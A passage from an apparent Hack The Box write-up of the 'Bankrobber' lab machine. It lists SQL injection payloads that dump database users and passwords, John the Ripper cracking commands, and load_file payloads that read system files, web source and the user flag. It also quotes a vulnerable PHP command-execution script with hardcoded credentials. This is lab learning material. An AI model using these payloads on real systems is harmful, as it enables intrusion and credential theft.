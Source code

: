 ```bash
# https://10.10.10.154/admin/
#  1' union select 1,schema_name,3 from information_schema.schemata-- -
#  1' union select 1,table_name,3 from information_schema.tables where table_schema='bankrobber'-- -
#  1' union select 1,column_name,3 from information_schema.columns where table_schema='bankrobber' and table_name='users'-- -
#  1' union select 1,group_concat(username,0x3a,password),3 from users-- -
#  1' union select 1,group_concat(User,0x3a,Password),3 from mysql.user-- -

john -w=$(locate rockyou.txt)
john -w=/usr/share/wordlists/rockyou.txt root_hash
```

<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

My next step is to search for sensitive information of the system and the default installation **[path of XAMPP](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html){:target="_blank"}** thanks to the **SQL** *load_file* function, I can access the content of files to which any system user has permissions to do so, I can also see the content of the first flag to enter in the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform, but the most interesting are the **.php** files of the web application including the source code of the **backdoorchecker.php** file (related to the second functionality that I could not use). The most important thing I could collect from my analysis of the file, is that there is a **badchar** definition, I can only execute `dir` from **localhost**, and the authentication credentials are harcoded (very bad practice).

```bash
# https://10.10.10.154/admin/
#  1' union select 1,load_file("C:\\Windows\\System32\\drivers\\etc\\hosts"),3-- -
#  1' union select 1,load_file("c:\\xampp\\apache\\bin\\php.ini"),3-- -
#  1' union select 1,load_file("c:\\xampp\\htdocs\\index.php"),3-- -
#  1' union select 1,load_file("C:\\Users\\Cortin\\Desktop\\user.txt"),3-- -   :)
#  1' union select 1,load_file("c:\\xampp\\htdocs\\admin\\backdoorchecker.php"),3-- -

# Analyze Code!
# $bad 	  = array('$(','&');
# if(strtolower(substr(PHP_OS,0,3)) == "win"){
#	$good = "dir";
# if($username == "admin" && $password == "Hopelessromantic"){
#	if(isset($_POST['cmd'])){
#			if(substr($_POST['cmd'], 0,strlen($good)) != $good){
#			if($_SERVER['REMOTE_ADDR'] == "::1"){
#				system($_POST['cmd']);
```
